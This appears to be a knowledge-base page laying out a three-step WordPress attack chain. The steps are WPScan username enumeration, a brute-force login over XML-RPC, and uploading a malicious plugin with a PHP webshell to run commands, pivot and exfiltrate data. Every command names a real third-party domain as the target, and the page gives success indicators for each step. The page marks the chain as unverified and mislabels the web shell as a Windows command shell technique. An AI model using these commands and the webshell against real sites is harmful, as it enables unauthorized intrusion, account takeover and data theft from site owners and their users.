

# WordPress Username Enumeration Leading to Admin Brute Force and Server Compromise

Multi-stage attack chain demonstrating a complete attack workflow targeting WordPress login vulnerabilities for initial access and escalation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/WPScan]]

### Target Environment

- WordPress platform on a web server
- Accessible /wp-admin login endpoint
- No rate limiting on login attempts

### Initial Access Requirements

- Network access to the target domain (e.g., http://nextcloud.com/wp-admin)
- No prior credentials needed
- Kali Linux or similar environment with WPScan installed

## Detailed Attack Procedures

### Step 1: Username Enumeration
procedure: [[procedures/Enumerate-WordPress-Usernames-with-WPScan]]

**Objective**: Identify valid admin usernames by exploiting differences in server responses on the WordPress login page.

**Instructions**: Install and run WPScan to enumerate users on the target WordPress site. Use the following command to scan for valid usernames:

```bash
wpscan --url https://nextcloud.com --enumerate u
```

This command detects response differences, such as unique error messages for invalid vs. valid usernames, revealing usernames like 'frank'.

**Expected Output**: A list of enumerated usernames, e.g., "Interesting Finding: Valid username: frank".

**Success Indicators**:
- Valid usernames listed in output
- No errors in WPScan execution

### Step 2: Brute Force Admin Login
procedure: [[procedures/Brute-Force-WordPress-Admin-Login-with-WPScan]]

**Objective**: Attempt to guess the password for the enumerated admin username to gain unauthorized access to the WordPress dashboard.

**Instructions**: Use WPScan with the known username to perform a brute force attack on the login endpoint. Prepare a wordlist (e.g., rockyou.txt) and run:

```bash
wpscan --url https://nextcloud.com -U frank -P /path/to/wordlist.txt --password-attack xmlrpc
```

This targets the XML-RPC endpoint for faster brute forcing if enabled, or falls back to the login form.

**Expected Output**: Successful login credentials if weak password found, e.g., "Login successful for user 'frank' with password 'weakpass'".

**Success Indicators**:
- Valid password cracked
- Access to /wp-admin dashboard

### Step 3: Access Escalation and Compromise
procedure: [[procedures/Escalate-WordPress-Access-to-Server-Compromise]]

**Objective**: Once logged in as admin, upload malicious payloads to gain shell access and compromise the server, including subdomains.

**Instructions**: Log in to the WordPress admin panel and navigate to Plugins or Themes. Upload a malicious plugin or theme containing a PHP shell (e.g., a simple webshell like <?php system($_GET['cmd']); ?>). Activate it, then access the shell via a browser or curl:

```bash
curl "https://nextcloud.com/wp-content/plugins/malicious/shell.php?cmd=whoami"
```

Use the shell to explore the server, pivot to subdomains, and exfiltrate data or install backdoors.

**Expected Output**: Server command execution output, e.g., username of the web server process.

**Success Indicators**:
- Shell uploaded and accessible
- Commands executed on server
- Access to subdomains confirmed

## Attack Chain Summary

### Key Achievements

1. Successful enumeration of admin username 'frank' via response differences.
2. Potential brute force success leading to dashboard access.
3. Full server compromise through shell upload, affecting all hosted sites.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Discovery]] Account Discovery
- [[Brute Force]] Brute Force
- [[Windows Command Shell]] Windows Command Shell (adapted for PHP/web shells)

### MITRE ATT&CK Tactics

- [[Discovery]] Discovery
- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
